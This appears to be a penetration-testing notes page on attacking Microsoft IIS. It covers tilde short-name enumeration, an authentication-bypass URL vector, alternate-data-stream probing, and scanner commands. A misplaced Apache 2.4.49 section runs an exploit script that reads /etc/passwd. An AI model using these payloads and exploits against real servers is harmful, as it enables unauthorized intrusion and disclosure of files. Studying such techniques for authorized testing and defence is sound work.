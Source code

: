 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# IIS

## 101

**IIS (Internet Information Services)** is a <mark style="background-color:yellow;">web server software made by Microsoft</mark>. It runs on Windows and is used to host websites, web applications, and services. It's commonly used for websites built with `ASP.NET` and other Microsoft technologies.

### Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>C:\inetpub\wwwroot\</code></td></tr><tr><td><strong>Config</strong></td><td><ul><li><code>%windir%\System32\inetsrv\config\applicationHost.config</code></li><li><code>C:\inetpub\wwwroot\web.config</code></li></ul></td></tr><tr><td><strong>Logs</strong></td><td><code>C:\inetpub\logs\LogFiles\</code></td></tr></tbody></table>

## Attacks

### Tilde Flaw

{% hint style="info" %}
The below information is based on [_Microsoft IIS tilde character “\~” Vulnerability/Feature – Short File/Folder Name Disclosure_](https://soroush.me/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) paper.
{% endhint %}

#### Dirbusting

In older versions of Microsoft’s IIS, there's a way to discover hidden files and folders using something called **8.3 short file names**. These are legacy DOS-style names (e.g., `SECRET~1.HTM`) automatically created for files like `AcSecret.html`. By using the tilde character (`~`) in a crafted URL, we can <mark style="background-color:yellow;">enumerate or guess these hidden names</mark>, even if the files are protected or not listed publicly.

When a server uses **short file names**, it maps a long filename like `AcSecret.html` to a short one like `ACSECR~1.HTM`. This behavior can be abused via URLs with wildcards (`*`, `?`) and the tilde `~`. For example:

```bash
http://victim.com/acsecr~1.htm/.aspx
```

If the server responds with a `404 (not found)` instead of a `400 (bad request)`, it means the file exists — we've guessed part of a real filename! We can refine the guess:

1. Use `a*~1*/.aspx` to test if a file starts with `a`
2. Keep adjusting letters (`ab*`, `ac*`, etc.) until the server gives clues

For example, if there is a result such as `http://10.10.10.10/file_co~1.txt`:

{% code overflow="wrap" %}
```bash
# Extract the words starting with 'co'
$ grep '^co.*' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt > start_with_co.txt

# Fuzz the file name
$ ffuf -w start_with_co.txt -u http://10.10.10.10/file_FUZZ.txt -ic -ac -c
...
connection    [Status: 200, Size: 142, Words: 3, Lines: 7, Duration: 35ms
```
{% endcode %}

The `.aspx` at the end of the URL is used due to a <mark style="background-color:yellow;">behavioral quirk of IIS</mark> that can be exploited to detect existing 8.3 names via different HTTP responses. <mark style="background-color:yellow;">IIS needs a valid extension at the end to route the request correctly</mark>. If the URL ends in something non-executable like `.htm` or no extension, IIS may return a generic response (like a `404` or `403`) instead of a behavior we can differentiate.

Adding `/.aspx` (or `/anything.aspx`) can <mark style="background-color:yellow;">force IIS to treat the path as a route to an</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">`ASP.NET`</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">resource</mark>, and might produce different error codes depending on whether the target file/folder actually exists or not. Let’s say we try:

```
http://victim.com/secretfo~1/
```

If it doesn’t exist will respond with `404 Not Found`, but if it exists might still give `404` or `403` depending on settings. On the other hand, if we try:

```
http://victim.com/secretfo~1/.aspx
```

If the folder exists, IIS may return a `403 (Forbidden)` , where if it doesn’t exist, it may return a `404 (Not Found)`.

#### Bypassing Authentication

Even if a folder is protected with login prompts (like Basic or Windows auth), we can still enumerate files using a trick:

```php
/ProtectedFolder::$Index_Allocation/*~1*/.aspx
```

This vector bypasses the login wall and lets us see what's inside **as long as short names exist**.

#### **Alternate Data Streams**

NTFS[^1], the default file system used by modern versions of Windows, has a feature called **ADS** that can help us check if a file exists based on the HTTP responses:

```bash
/filename.html::$data/~1/.aspx
```

A `404` usually means the file is there, just not accessible directly.

#### Tools

The tilde enumeration can be automated using tools such as the [`shortscan`](https://github.com/bitquark/shortscan):or MSF's `iis_shortname_scanner` module:

{% tabs %}
{% tab title="shortscan" %}
```bash
# Single target
$ shortscan http://example.org/

# File with a list of URLs
$ shortscan @urls.txt
```
{% endtab %}

{% tab title="iis_shortname_scanner" %}
{% code overflow="wrap" %}
```bash
# Initial scan
$ sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; run;"

# Targeted scan
sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; set path /dev/dca66d38fd916317687e1390a420c3fc; run;"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### v2.4.49

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}

[^1]: New Technology File System

